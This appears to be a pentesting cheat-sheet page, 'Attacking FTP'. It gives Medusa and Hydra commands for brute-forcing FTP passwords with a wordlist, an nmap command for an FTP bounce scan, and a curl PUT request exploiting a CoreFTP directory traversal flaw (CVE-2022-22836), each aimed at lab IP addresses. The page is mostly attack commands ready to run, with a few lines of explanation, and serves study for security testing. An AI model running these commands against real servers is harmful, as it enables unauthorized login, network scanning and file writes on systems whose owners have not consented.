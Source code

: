 # Attacking FTP

#### **Brute-Forcing FTP Login (If Anonymous Access is Disabled)**

If **anonymous login** is **not allowed**, we can try brute-forcing the FTP password using **Medusa**.

```bash
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 192.168.2.142 -M ftp
```

```bash
hydra -L users.list -P passwords.list <ftp://10.129.6.59> -s 2121 -t 10
```

<figure><img src="../../.gitbook/assets/hydra.png" alt=""><figcaption></figcaption></figure>

#### **FTP Bounce Attack (Pivoting Through FTP)**

Some FTP servers allow **FTP Bounce**, meaning we can use them as a **proxy** to scan other devices inside a network.

The FTP Bounce Attack uses an FTP server to secretly scan or hit another device on the same network. You trick the server with the "PORT" command to connect to the hidden device and get info, like open ports. It works if the server’s settings are off, but modern ones usually block it.

```bash
nmap -Pn -v -n -p80 -b <anonymous:password@10.10.110.213> 172.17.0.2
```

***

the `CoreFTP before build 727`  is vulnerable to [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836). which is vulnerable to Directory traversal

```bash
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
